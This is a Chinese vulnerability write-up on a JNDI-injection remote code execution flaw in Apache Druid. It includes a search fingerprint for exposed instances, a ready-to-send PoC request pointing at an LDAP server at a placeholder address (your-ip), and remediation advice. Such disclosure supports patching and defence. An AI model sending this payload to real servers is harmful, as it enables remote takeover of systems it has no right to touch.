

# Apache Druid 远程代码执行漏洞 QVD-2023-9629

## 漏洞描述

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。

## 漏洞影响

```
Apache Druid <= 25.0.0
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：



在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。

poc：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"1.1.1.1:9092",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"any",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

修改请求包，user.provider.url 处填写你的 ldap 服务 url。

利用 DNSLog 验证漏洞是否存在。

## 修复建议

- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html

